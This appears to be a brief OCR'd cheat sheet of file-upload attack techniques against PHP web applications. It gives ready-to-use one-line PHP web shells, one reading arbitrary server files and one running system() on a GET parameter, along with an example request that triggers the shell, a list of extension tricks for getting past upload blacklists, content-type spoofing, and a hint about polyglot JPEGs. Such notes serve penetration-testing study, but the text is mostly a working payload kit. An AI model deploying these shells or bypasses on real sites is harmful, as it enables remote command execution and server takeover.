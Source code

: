 PHP Files one line code 

<?php echo file_get_contents('/path/to/target/file'); ?> /n       //user text/plain and application/x-httpd-php  when upload the php//
<?php echo system($_GET['command']); ?>
GET /example/exploit.php?command=id HTTP/1.1     //in place id enter the command//

conent type header:
application/x-www-form-url-encoded    //for sending the simple text, HTML//
multipart/form-data     //for sending large amount of data Image, pdf//
image/jpeg  
image/png     //images conetent types//
application/x-httpd-php   

blacklistfiles bypass::
.php
.php5
.shtml
.pHp
exploit.php.jpg
exploit.php.
exploit%2Ephp (url encode for .)
exploit.asp;.jpg
exploit.asp%00.jpg
exploit.p.phphp

File Conetents:
 JPEG files always begin with the bytes FF D8 FF in the burp response body
 ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata.

 
